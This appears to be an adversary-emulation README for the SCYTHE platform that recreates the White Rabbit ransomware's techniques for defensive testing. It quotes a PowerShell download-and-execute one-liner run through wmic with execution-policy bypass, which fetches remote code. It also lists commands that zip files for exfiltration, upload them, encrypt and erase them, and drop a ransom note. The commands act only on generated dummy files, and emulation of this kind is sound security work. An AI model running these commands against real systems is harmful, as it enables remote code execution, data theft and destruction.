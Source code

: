 # White Rabbit

## Cyber Threat Intelligence
White Rabbit was first observed attacking a US bank in December 2021 using double extortion techniques similar to [Egregor](https://github.com/scythe-io/community-threats/tree/master/Egregor).[^1] As a relateively new ransomware group, TTPs and cyber threat intelligence is not as abundant and available as other ransomware threats. This threat emulates the adversary at the technique level.

## Automated Emulation
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under WhiteRabbit/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/WhiteRabbit
4. Create a new campaign with HTTPS.
5. Import from Existing Threat: WhiteRabbit_v1
6. Launch the Campaign
7. As per CTI, execution of White Rabbit was done using ```wmic process call create "cmd /c powershell.exe -nop -ep bypass -c iex (New-Object System.Net.WebClient).DownloadString ('https://payloadurl/')"```

## Manual Emulation
```
loader --load run
run cmd /c mkdir "%USERPROFILE%\Desktop\WhiteRabbit"
loader --load file
file --create --path "%USERPROFILE%\Desktop\WhiteRabbit\important_files.doc" --size 2MB --count 50
run powershell "Compress-Archive -Path $env:userprofile\Desktop\WhiteRabbit -CompressionLevel Optimal -Destination $env:userprofile\Desktop\WhiteRabbit\exfil.zip"
loader --load uploader
uploader --remotepath "%USERPROFILE%\Desktop\WhiteRabbit\exfil.zip"
loader --load crypt
crypt --target "%USERPROFILE%\Desktop\WhiteRabbit\" --encrypt --password "Wh1teR4bb1t" --erase --recurse
loader --load downloader
downloader --src "VFS:/shared/WhiteRabbit/README.scrypt.txt" --dest "%USERPROFILE%\Desktop\WhiteRabbit\README.scrypt.txt"
run wmic process call create "cmd /c powershell.exe -nop -ep bypass notepad.exe $env:userprofile\Desktop\WhiteRabbit\README.scrypt.txt"
run cmd /c rmdir /Q /S %USERPROFILE%\Desktop\WhiteRabbit"
```

## References
- [TrendMicro](https://www.trendmicro.com/en_us/research/22/a/new-ransomware-spotted-white-rabbit-and-its-evasion-tactics.html)

[^1]: [TrendMicro](https://www.trendmicro.com/en_us/research/22/a/new-ransomware-spotted-white-rabbit-and-its-evasion-tactics.html)